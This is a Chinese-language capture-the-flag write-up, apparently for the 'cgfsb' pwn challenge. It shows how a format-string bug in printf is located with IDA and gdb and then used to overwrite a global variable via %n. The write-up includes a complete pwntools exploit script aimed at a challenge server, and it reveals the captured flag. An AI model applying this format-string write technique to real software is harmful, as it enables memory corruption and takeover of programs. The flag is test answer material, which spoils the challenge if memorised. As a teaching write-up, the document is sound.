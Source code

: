 ![1558938286420](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\1558938286420.png)

nc到服务器题目上，输入什么，就输出什么

![1558938707032](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\1558938707032.png)

通过 ida 查看汇编代码 找到`call printf`的地址（调用printf(&s)）。之后我们用gdb进行调试，在调用printf(&s)之前下一个断点,查看接收 message 的变量 s 是格式化字符串的第几个参数。输入 message 的时候输入 ‘aaaa’。

![1558939085275](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\1558939085275.png)

![1558939300328](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\1558939300328.png)

查看当前栈中的内容

![1558939333121](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\1558939333121.png)

通过 输入message的时候，把 pwnme的地址（在ida中点击伪代码中的pwnme就能查看到了） 写到这个位置，然后把这个地址的值修改成8（利用格式化字符串漏洞的任意内存写）

![1558939497652](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\1558939497652.png)

pwnme的地址+aaaa 凑出8个字节，这样就可以在10$的位置 写入8（四个字节）改变pwnme的值。

构造出下面的payload

```python
from pwn import *

context.log_level = 'debug' 

DEBUG = int(sys.argv[1])

if DEBUG == 1: 
    p = process('./cgfsb') 
else: 
    p = remote('111.198.29.45', 45121)

pwnme_addr = 0x0804A068

payload1 = "ABCD" 

payload2 = p32(pwnme_addr) + 'aaaa%10$n'

p.recvuntil('please tell me your name:\n') p.sendline(payload1)

p.recvuntil('leave your message please:\n') p.sendline(payload2)

print p.recv() 

print p.recv()

```



![1558940090825](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\1558940090825.png)

```
cyberpeace{b19ef6e1549c3976ca39c5ca49c824f7}
```

